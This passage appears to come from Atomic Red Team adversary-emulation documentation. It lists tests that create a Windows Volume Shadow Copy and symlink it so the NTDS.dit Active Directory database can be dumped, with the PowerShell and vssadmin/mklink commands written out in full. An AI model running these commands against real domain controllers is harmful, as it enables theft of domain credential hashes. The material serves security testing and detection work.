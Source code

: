 
#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| drive_letter | Drive letter to source VSC (including colon) | String | C:&#92;|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
(gwmi -list win32_shadowcopy).Create('#{drive_letter}','ClientAccessible')
```






<br/>
<br/>

## Atomic Test #7 - Create Symlink to Volume Shadow Copy
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by creating a symlink to Volume Shadow Copy.

**Supported Platforms:** Windows


**auto_generated_guid:** 21748c28-2793-4284-9e07-d6d028b66702





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| drive_letter | Drive letter to source VSC (including colon) | String | C:|
| symlink_path | symlink path | String | C:&#92;Temp&#92;vssstore|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
vssadmin.exe create shadow /for=#{drive_letter}
mklink /D #{symlink_path} \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```






<br/>
